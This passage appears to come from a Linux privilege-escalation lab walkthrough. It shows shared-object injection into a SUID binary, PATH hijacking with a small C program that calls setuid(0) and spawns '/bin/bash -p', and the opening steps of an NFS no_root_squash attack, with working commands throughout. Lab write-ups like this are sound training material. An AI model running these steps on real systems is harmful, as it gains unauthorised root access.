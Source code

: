 
Now, after running this we can see that shared object is loaded in our home directory but can't be found. So we can create that executables and the spawn a bash shell.
```bash
root@gr4n173:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```


Finally running the executables again we spawn the root shell.

### Environment Variables
Here we exploit the executables due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Lets take an example if `service` executable is being called to start the webserver, however full path isn't used then we can use the executable called service and spawn the Bash shell.
```bash
root@gr4n173:~$ gcc -o service /home/user/file/service.c
```

```c
$ Service code
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

## 6. NFS
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
root@gr4n173:~$ cat /etc/exports
```

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

```bash
root@gr4n173:~$ sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

```bash
root@gr4n173:~$ mkdir /tmp/nfs  
root@gr4n173:~$ mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

